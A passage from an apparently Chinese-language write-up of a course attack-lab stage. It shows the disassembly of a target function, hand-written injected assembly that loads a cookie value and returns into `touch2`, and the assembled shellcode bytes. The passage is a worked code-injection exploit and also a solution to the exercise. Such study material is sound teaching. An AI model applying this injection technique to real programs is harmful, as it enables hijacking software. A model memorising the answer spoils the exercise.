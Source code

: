 `touch2` 函数对应的汇编代码。

```x86asm
00000000004017ec <touch2>:
  4017ec:   48 83 ec 08             sub    $0x8,%rsp
  4017f0:   89 fa                   mov    %edi,%edx
  4017f2:   c7 05 e0 2c 20 00 02    movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:   00 00 00
  4017fc:   3b 3d e2 2c 20 00       cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:   75 20                   jne    401824 <touch2+0x38>
  401804:   be e8 30 40 00          mov    $0x4030e8,%esi
  401809:   bf 01 00 00 00          mov    $0x1,%edi
  40180e:   b8 00 00 00 00          mov    $0x0,%eax
  401813:   e8 d8 f5 ff ff          callq  400df0 <__printf_chk@plt>
  401818:   bf 02 00 00 00          mov    $0x2,%edi
  40181d:   e8 6b 04 00 00          callq  401c8d <validate>
  401822:   eb 1e                   jmp    401842 <touch2+0x56>
  401824:   be 10 31 40 00          mov    $0x403110,%esi
  401829:   bf 01 00 00 00          mov    $0x1,%edi
  40182e:   b8 00 00 00 00          mov    $0x0,%eax
  401833:   e8 b8 f5 ff ff          callq  400df0 <__printf_chk@plt>
  401838:   bf 02 00 00 00          mov    $0x2,%edi
  40183d:   e8 0d 05 00 00          callq  401d4f <fail>
  401842:   bf 00 00 00 00          mov    $0x0,%edi
  401847:   e8 f4 f5 ff ff          callq  400e40 <exit@plt>
```

`touch2` 函数的参数存储在寄存器 `$rdi` 中。所以需要把 `$rdi` 中的值置成 `cookie`，然后执行 `touch2` 函数。
在第一关中的答案中输出了 `cookie` 的地址 `0x59b997fa`。这里可以看到 `touch2` 函数的地址是 `$0x4017ec`。所以得到下面的汇编代码。

```x86asm
mov $0x59b997fa, %edi
pushq $0x4017ec
ret
```
把上面三行代码写入文件 `2.s` 中。

```sh
gcc -c 2.s
objdump -d 2.o > 2.d
```
用 `gcc` 和 `objdump` 汇编代码变成机器码。得到如下结果：

```x86asm
2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
   5:   68 ec 17 40 00          pushq  $0x4017ec
   a:   c3                      retq
```
这段程序的机器码是  `bf fa 97 b9 59 68 ec 17 40 00 c3`，一共 11 个字节。

